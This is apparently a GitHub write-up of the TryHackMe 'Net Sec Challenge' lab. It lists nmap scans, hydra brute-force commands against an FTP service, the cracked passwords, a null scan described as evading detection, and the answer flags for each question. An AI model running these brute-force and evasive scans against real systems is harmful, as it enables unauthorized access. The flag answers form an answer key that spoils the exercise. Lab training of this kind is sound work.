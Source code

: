 # Net-Sec-Challenge-Writeup
An updated writeup for the net sec challenge lab do try hack me, good studies

# All Questions

![image](https://github.com/user-attachments/assets/3c366a6e-9c18-4c07-899c-346b1d6d24db)

# WriteUp

Use nmap -p- -v -A machine_ip to see all the details needed for the questions 1-6

1. What is the highest port number being open less than 10,000?

R = 8080

![image](https://github.com/user-attachments/assets/b0b1307f-3198-442e-916c-ce39a8ba20f0)

2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

R=10021

![image](https://github.com/user-attachments/assets/266226b8-a2e5-44d3-8fce-5e9de0d4910f)

3. How many TCP ports are open?

R= 6, just count the ports.

4. What is the flag hidden in the HTTP server header?

R= THM{web_server_25352}

![image](https://github.com/user-attachments/assets/bb62dcb2-0498-47be-b111-a06df5f7f1d7)

5. What is the flag hidden in the SSH server header?

R= THM{946219583339}

![image](https://github.com/user-attachments/assets/4d1a15d4-59e1-4ce7-ba61-3a34bde95865)

6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

R= vsftpd 3.0.5

![image](https://github.com/user-attachments/assets/edbb00d1-43ea-4037-8655-a6a81c01709d)

7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?

hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021

password: jordan

hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021

password: andrea

![image](https://github.com/user-attachments/assets/902f0a67-e3e4-44cb-bc21-c5563311a160)

$ ftp machine_ip 10021 
user: quinn
password: andrea

connect via ftp

![image](https://github.com/user-attachments/assets/bbd53333-8c6b-41a5-a4e9-5a46678d918f)

ftp> ls
ftp> get ftp_flag.txt
With this we get the flag

![image](https://github.com/user-attachments/assets/9a044d0a-620e-41aa-be51-d255f9a6cccf)

ftp> quit
$ cat ftp_flag.txt

![image](https://github.com/user-attachments/assets/939ea7e5-a1e0-4396-9c68-910e76d13706)

R= THM{321452667098}

8. Browsing to `http://10.10.209.57:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?

![image](https://github.com/user-attachments/assets/e05a9daf-e239-4c15-88fb-0f5926a0aa31)

USE sudo nmap -sN 10.10.209.57

![image](https://github.com/user-attachments/assets/a8e11ffe-0588-437b-8acf-93fd67302ad5)

use null scan for less detection

![image](https://github.com/user-attachments/assets/5ad99a9c-9aaf-4163-b15a-075672777b7f)

R= THM{f7443f99}

Good Learning!
